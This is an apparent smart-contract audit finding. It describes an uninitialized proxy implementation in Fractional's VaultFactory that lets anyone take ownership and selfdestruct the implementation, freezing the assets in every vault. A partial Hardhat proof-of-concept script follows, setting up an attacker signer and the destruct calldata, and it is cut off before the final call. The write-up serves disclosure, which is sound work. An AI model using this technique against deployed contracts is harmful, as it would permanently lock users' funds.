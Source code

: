 This is a basic uninitialized proxy bug, the `VaultFactory` creates a single implementation of `Vault` and then creates a proxy to that implementation every time a new vault needs to be deployed.

The problem is that that implementation vault is not initialized , which means that anybody can initialize the contract to become the owner, and then destroy it by doing a delegate call (via the `execute` function) to a function with the `selfdestruct` opcode.
Once the implementation is destroyed all of the vaults will be unusable. And since there's no logic in the proxies to update the implementation - that means this is permanent (i.e. there's no way to call any function on any vault anymore, they're simply dead).

### Impact

This is a critical bug, since ALL assets held by ALL vaults will be lost. There's no way to transfer them out and there's no way to run any function on any vault.

Also, there's no way to fix the current deployed contracts (modules and registry), since they all depend on the factory vault, and there's no way to update them to a different factory. That means Fractional would have to deploy a new set of contracts after fixing the bug (this is a relatively small issue though).

### Proof of Concept

I created the PoC based on the `scripts/deploy.js` file, here's a stripped-down version of that:

```javascript
const { ethers } = require("hardhat");

const ZERO_ADDRESS = "0x0000000000000000000000000000000000000000";

async function main() {
    const [deployer, attacker] = await ethers.getSigners();

    // Get all contract factories
    const BaseVault = await ethers.getContractFactory("BaseVault");
    const Supply = await ethers.getContractFactory("Supply");
    const VaultRegistry = await ethers.getContractFactory("VaultRegistry");

    // Deploy contracts

    const registry = await VaultRegistry.deploy();
    await registry.deployed();

    const supply = await Supply.deploy(registry.address);
    await supply.deployed();

    // notice that the `factory` var in the original `deploy.js` file is a different factory than the registry's
    const registryVaultFactory = await ethers.getContractAt("VaultFactory", await registry.factory());

    const implVaultAddress = await registryVaultFactory.implementation();
    const vaultImpl = await ethers.getContractAt("Vault", implVaultAddress);

    const baseVault = await BaseVault.deploy(registry.address, supply.address);
    await baseVault.deployed();
    // proxy vault - the vault that's used by the user
    let proxyVault = await deployVault(baseVault, registry, attacker);

    const destructorFactory = await ethers.getContractFactory("Destructor");
    const destructor = await destructorFactory.deploy();


    let destructData = destructor.interface.encodeFunctionData("destruct", [attacker.address]);

    const abi = new ethers.utils.AbiCoder();
```